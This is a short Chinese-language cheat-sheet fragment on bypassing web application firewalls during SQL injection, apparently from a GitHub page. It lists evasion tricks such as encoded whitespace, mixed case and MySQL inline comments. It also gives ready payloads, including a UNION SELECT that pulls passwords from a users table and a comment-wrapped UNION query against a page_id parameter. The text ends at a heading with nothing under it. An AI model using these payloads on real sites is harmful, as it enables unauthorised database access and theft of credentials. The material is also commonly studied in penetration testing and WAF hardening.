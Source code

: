 
### 其它绕过
空格，空白符；大小写混输；关键字；插入注释；

/ *！SELECT * /可能会被WAF忽略，但传递给目标应用程序是由mysql数据库处理。

MySQL空白符：%09，%0A，%0B，%0D，%20，%0C，%A0，/*xxx*/
正则的空白符：%09，%0A，%0B，%0D，%20

union %250Cselect


'union%a0select pass from users#

index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
字符串判断绕过



